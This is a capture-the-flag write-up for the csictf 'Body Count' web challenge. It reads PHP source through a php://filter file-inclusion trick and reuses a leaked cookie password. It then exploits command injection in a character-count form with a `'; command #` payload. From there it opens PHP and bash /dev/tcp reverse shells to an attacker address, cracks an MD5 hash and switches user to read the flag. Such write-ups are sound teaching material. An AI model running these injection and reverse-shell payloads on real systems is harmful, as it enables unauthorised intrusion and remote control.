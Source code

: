# Body Count

## Challenge details 
**Category** : Web  
**points** : 493  
**Description** : Here’s a character count service for you!  
                  http://chall.csivit.com:30202
                 
## Solution
First time in the website we see a black screen written but nothing intresting by observing the url `http://chall.csivit.com:30202/?file=wc.php` we can see that's it's the content
of the `wc.php` so i tried checking `robots.txt` and we got this :


```
Disallow: /?file=checkpass.php
```


In order to be able to see the content of `checkpass.php` we can  use a php filter 


```
http://chall.csivit.com:30202/?file=php://filter/convert.base64-encode/resource=checkpass.php
```


Using that we got the base64 of the `checkpass.php` after decoding it we got this :  
**checkpass.php**


```
<?php
$password = "w0rdc0unt123";
// Cookie password.
echo "IMPORTANT!!! The page is still under development. This has a secret, do not push this page.";

header('Location: /');
```
So we got two intresting things a password and note saying it's a cookie password and by looking to our cookies we find out a cookie with name of `password` and 
value `PASSWORD` we will leave it like this for now because we need to understand first how this service is running by checking the content of `wc.php`,
we can easily do that using the same technique we used earlier  


```
http://chall.csivit.com:30202/?file=php://filter/convert.base64-encode/resource=wc.php
```
And This is the content of the file :  
**wc.php**
```
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>wc as a service</title>
    <style>
        html,
        body {
            overflow: none;
            max-height: 100vh;
        }
    </style>
</head>

<body style="height: 100vh; text-align: center; background-color: black; color: white; display: flex; flex-direction: column; justify-content: center;">
    <?php
    ini_set('max_execution_time', 5);
    if ($_COOKIE['password'] !== getenv('PASSWORD')) {
        setcookie('password', 'PASSWORD');
        die('Sorry, only people from csivit are allowed to access this page.');
    }
    ?>

    <h1>Character Count as a Service</h1>
    <form>
        <input type="hidden" value="wc.php" name="file">
        <textarea style="border-radius: 1rem;" type="text" name="text" rows=30 cols=100></textarea><br />
        <input type="submit">
    </form>
    <?php
    if (isset($_GET["text"])) {
        $text = $_GET["text"];
        echo "<h2>The Character Count is: " . exec('printf \'' . $text . '\' | wc -c') . "</h2>";
    }
    ?>
</body>

</html>
```
By looking to the source code we can divide it into two parts 


#### Part One 
Our cookie password will get checked , in case of fail a message saying `Sorry, only people from csivit are allowed to access this page.` will appear and the rest 
of the code won't be executed due to the die() focntion . So we tried the password that we got earlier `w0rdc0unt123` and it worked now we can see the rest of the
webpage and pass to the second part 


#### Part Two
As we can see our input `Text`obtained by the GET form will be putten inside this command `printf '{text}' | wc -c`. We can easily bypass this and get a command execution
using this payload :  
`'; command # `  
* ` ' `  :  To close the first quote and complete the printf command  
* ` ; `  :  In order to specify a second command 
* `command`  :  This is the command tha we want to execute  
* `#`  :  To comment out the rest  


**Note** :  We will only get the last line of the result due to the exec focntion that only returns the last line of the result a way to bypass it is by adding `| head -n $line` after the command where $line represents the line you want to read but we will not need to do this here


So after that I tried `'; ls #` and this was the result : 
```
The Character Count is: wc.php
```
Bingo ! Our code injection worked now we will try to spawn a shell , at the begining i tried to do it with netcat and python but neither of those were present in the 
server so i did it using php and this was the command :   
```
php -r '$sock=fsockopen( "$your_adress_ip" , $port );exec("/bin/sh -i <&3 >&3 2>&3");'
```
The full command will be like this :
```
' ;  php -r '$sock=fsockopen( "$your_adress_ip" , $port );exec("/bin/sh -i <&3 >&3 2>&3");' #
```
Another way to do it is using the bach technique :  
```
bash -i >& /dev/tcp/$your_adress_ip/$port 0>&1
```
With that we were able to get a shell in the server and we were the user `www-data`  

```
www-data@9c9f6ae73053:/var/www/html$
````
After navigating a little bit inside the server I found two intresting files :   
* `flag.txt` : Which was located at `/ctf/system/of/a/down/` to find it you can use this `find / -iname "*flag*" ` .But we can't read it because of permissions, the only users who could read it are `root`
and `csictf`  
* `README` : A file located at `/ctf` and this was its content :
```
My password hash is 6f246c872cbf0b7fd7530b7aa235e67e.
```
So this is propably the password of the `csictf` user, all we need to do is crack it than su to csictf and read the flag . I wasn't able to crack it using john but  an online crackstation were able to crack it and this is the passsword `csictf` i think anyone 
could guess it  
Now we can change user to `csictf` using `su` and read the flag

##### The Flag 
```
csictf{1nj3ct10n_15_p41nfu1}
```












